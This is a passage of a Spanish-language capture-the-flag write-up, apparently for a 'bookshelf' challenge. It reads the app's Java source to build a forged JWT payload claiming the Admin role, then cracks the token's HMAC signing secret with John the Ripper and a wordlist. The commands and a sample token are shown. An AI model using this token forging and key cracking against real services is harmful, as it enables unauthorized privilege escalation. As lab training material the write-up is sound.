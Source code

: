 ```java
        String currentDirectory = System.getProperty("user.dir");
        String userDataRootPath = currentDirectory + File.separator + "userdata";
        String userPhotoDir = userDataRootPath + File.separator + "userphotos" + File.separator;
        String booksDir = userDataRootPath + File.separator + "books";
        String bookCoversDir = booksDir + File.separator + "covers" + File.separator;
        String bookPdfsDir = booksDir + File.separator + "pdfs" + File.separator;
        return new UserDataPaths()
                .setUserPhotoDirPath(userPhotoDir)
                .setBookCoversPath(bookCoversDir)
                .setBookPdfsPath(bookPdfsDir)
                .setCurrentJarPath(currentDirectory + File.separator);
    }
}

```

Entonces aqui vemos algo interesante la informacion que usaremos para crear nuestro payload:
Para el `rol:`
```java
setFullName("Admin")
```

Para el `email`:
```java
.setEmail("admin")
```

Ahora en la carpeta de `security`, vemos que el documento de Role.java nos dice lo siguiente:

```java
//higher the value, more the privilege. By this logic, admin is supposed to

    // have the highest value
```

A mayor rol, mayor valor, por lo que en `UserId` necesitamos poner un numero mayor al que actualmente tenemos, este podría ser `2`.

Entonces, nuestro `payload` queda de la siguiente manera.

```json
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1745361975,
  "iat": 1744757175,
  "userId": 2,
  "email": "admin"
}
```

Pero aun nos falta conocer la firma, en este caso vamos a usar Jhon The Ripper para saber cual es la firma:
```sh
┌──(xrengariox㉿PC)-[~/…/github/nandandesai/pico/configs]
└─$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc0NTM1ODgwMCwiaWF0IjoxNzQ0NzU0MDAwLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.w1NdpZS0VB9SbJgVLdgXbrMGMmn5vQiJqA06gzAqXQk" >> jwt

┌──(xrengariox㉿PC)-[~/…/github/nandandesai/pico/configs]
└─$ john jwt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
Remaining 2 password hashes with 2 different salts
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1234             (?)     
```